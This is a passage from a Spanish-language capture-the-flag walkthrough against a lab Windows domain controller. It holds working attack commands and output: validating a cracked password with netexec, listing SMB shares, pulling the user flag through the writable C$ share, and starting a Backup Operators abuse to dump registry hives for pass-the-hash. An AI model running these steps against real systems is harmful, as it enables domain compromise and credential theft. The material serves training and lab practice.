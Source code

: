Y vemos que la credencial es `internet`

Podemos probarlo con `netexec`
```console
 nxc smb 192.168.182.4 -u zximena448 -p internet
SMB         192.168.182.4   445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:SOUPEDECODE.LOCAL) (signing:True) (SMBv1:False)
SMB         192.168.182.4   445    DC01             [+] SOUPEDECODE.LOCAL\zximena448:internet 
```

Ahora recordemos que este es el usuario que pertenecía al grupo `Backup Operators`

# SMB Enumeration (again)
```console
$ smbmap -H 192.168.182.4 -u zximena448 -p internet
[+] IP: 192.168.182.4:445       Name: SOUPEDECODE.LOCAL                                 
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  READ ONLY       Remote Admin
        C$                                                      READ, WRITE     Default share
        IPC$                                                    READ ONLY       Remote IPC
        NETLOGON                                                READ ONLY       Logon server share 
        SYSVOL                                                  READ ONLY       Logon server share
```

Vemos que podemos acceder al recurso `C$` que corresponde al disco duro del DC.

Gracias a esto, podemos descargarnos la flag de usuario.
```console
smb: \Users\zximena448\Desktop\> get user.txt
getting file \Users\zximena448\Desktop\user.txt of size 33 as user.txt (4,0 KiloBytes/sec) (average 4,0 KiloBytes/sec)
```

```console
$ cat user.txt 
2fe79eb0e02ecd4dd...
```

# Privilege Escalation
## Abusing Backup Operators Group -> Dumping SAM Remotely 
Aunque no tengamos una consola en la máquina víctima, podemos dumpear remotamente la SAM, y los registros SYSTEM y SECURITY para recuperar los hashes de los usuarios del sistema y hacer Pass The Hash para escalar privilegios.

Podemos utilizar [este PoC](https://github.com/horizon3ai/backup_dc_registry) para realizar esto.

Clonamos el repositorio.
```console
$ git clone https://github.com/horizon3ai/backup_dc_registry                                            
Cloning into 'backup_dc_registry'...                                                                            
remote: Enumerating objects: 8, done.                                                                           
remote: Counting objects: 100% (8/8), done.                                                                     
remote: Compressing objects: 100% (7/7), done.
remote: Total 8 (delta 0), reused 5 (delta 0), pack-reused 0 (from 0)
Receiving objects: 100% (8/8), 129.91 KiB | 1.18 MiB/s, done.
```

